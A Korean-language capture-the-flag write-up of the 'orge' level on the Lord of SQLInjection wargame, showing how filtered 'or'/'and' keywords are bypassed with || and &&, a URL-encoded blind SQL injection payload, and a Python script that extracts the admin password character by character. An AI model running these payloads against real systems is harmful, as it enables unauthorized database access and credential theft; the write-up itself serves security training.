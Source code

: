 <img width="180" alt="스크린샷 2020-01-16 오후 7 07 26" src="https://user-images.githubusercontent.com/54495632/72515580-7d320700-3893-11ea-8ccb-2f66c9e5b24d.png">

7번 ORGE

<img width="663" alt="스크린샷 2020-01-16 오후 7 07 37" src="https://user-images.githubusercontent.com/54495632/72515613-8b802300-3893-11ea-8f95-69eb51d0499a.png">

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
or 과 and 가 필터링 되어있다 -> || &로 대체한다.

앞의 쿼리문을 이용하고 Blind SQL Injection이용하여
pw를 알아내서 알맞은 pw을 입력하면 해결되는 문제이다.
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");

앞에서 나왔던 문제에서 and, or 필터링 조건이 붙은 것 같다.

pw의 length는 구하기가 비교적 간단하여 URL을 이용했고
pw의 값은 파이썬 requests를 이용하여 구하였다.

<img width="699" alt="스크린샷 2020-01-16 오후 7 29 57" src="https://user-images.githubusercontent.com/54495632/72517588-01d25480-3897-11ea-8482-c76621b475cc.png">

<img width="704" alt="스크린샷 2020-01-16 오후 7 30 08" src="https://user-images.githubusercontent.com/54495632/72517600-05fe7200-3897-11ea-89b2-cca41d47e1b8.png">

<img width="691" alt="스크린샷 2020-01-16 오후 7 30 20" src="https://user-images.githubusercontent.com/54495632/72517607-0860cc00-3897-11ea-9f11-f82e67b0b647.png">

다음과 같은 과정을 통해 pw의 길이 = 8임을 알아냈다.

파이썬을 이용해서 pw 값을 구했는데
ascii(substr()) , ascii(mid()) 같은 의미다.

pw=1%27||id=%27admin%27%26%26ascii(mid(pw,1,1))=55%23
ascii(mid(pw,1,1)) -> pw의 index 1부터 1글자의 아스키 코드값 

<img width="726" alt="스크린샷 2020-01-16 오후 7 40 56" src="https://user-images.githubusercontent.com/54495632/72518245-3b578f80-3898-11ea-9465-02c7cc72d75a.png">

<img width="292" alt="스크린샷 2020-01-16 오후 7 44 19" src="https://user-images.githubusercontent.com/54495632/72518465-c6388a00-3898-11ea-9970-b88df90d340e.png">

import requests

cookies={'PHPSESSID':'쿠키값'}
url="https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):
        query="pw=1%27||id=%27admin%27%26%26ascii%28mid%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)



pw =7b751aec를 찾았다.

<img width="693" alt="스크린샷 2020-01-16 오후 7 47 23" src="https://user-images.githubusercontent.com/54495632/72518591-0a2b8f00-3899-11ea-8a0d-193f9b6029de.png">

다음과 같이 pw에 해당 값을 넣어주면 해결된다.
